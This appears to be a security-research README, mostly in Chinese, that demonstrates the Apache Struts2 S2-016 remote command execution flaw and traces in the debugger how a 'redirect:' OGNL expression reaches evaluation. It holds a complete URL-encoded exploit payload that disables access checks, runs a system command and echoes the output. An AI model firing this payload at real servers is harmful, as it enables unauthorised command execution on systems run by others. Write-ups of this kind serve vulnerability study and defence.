





# S2-016 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.15`

Problem: 在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC



Payload: 

```java
index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read%28%23d%29%2C%23genxor%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23genxor.println%28%23d%29%2C%23genxor.flush%28%29%2C%23genxor.close%28%29%7D
```

## Debug

关注两点，第一是`redirect:<ognl>`是如何被处理的；第二，`payload`是如何被解析的。

在核心过滤器FilterDispatcher类的dofilter()函数下个断点，它负责拦截所有的用户请求。

s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/FilterDispatcher.class:181



doFilter先进行创建值栈、上下文、包装request等一些初始化操作，然后进入getMapping()方法，通过uri解析对应的action配置信息，例如namespace、actionname、method。跟进getMapping()：


parseNameAndNamespace()方法根据uri和配置文件中的namespace进行对比来判断namespace。hadleSpecialParameters()方法顾名思义是处理某些特殊参数。跟入hadleSpecialParameters()：



首先获取到request中所有参数名，遍历看是否有以`.x`和`.y`结尾的参数名，`prefixTrie.get(key)`判断参数名是否都是有效字符。

再跟入`parameterAction.execute()`，可以看到`redirect.setLocation()`方法将`redirect:`后面的内容设置为了`location`。



到这里第一个问题知道了，就是`redirect:`后面的`ognl`表达式进入了`location`参数。

再看看这个location什么时候被解析。回到doFilter()，继续往下进入serviceAction()：



先获取Configuration对象，通过Configuration得到容器对象，再从容器中获取ActionProxyFactory工厂类创建ActionProxy动态代理。

mapping.getResult()不为null，根据Result配置创建出相应的Result对象，然后执行Result的execute方法。跟入execute()：

```java
    public void execute(ActionInvocation invocation) throws Exception {
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

到了熟悉的地方——conditionalParse()方法，该函数用于处理跳转地址location，会判断location是否有ognl表达式，有的话将会执行表达式。一直跟入translateVariables()，到stack.findValue触发执行ognl表达式。


## Reference

- [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)
- [S2-016 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)

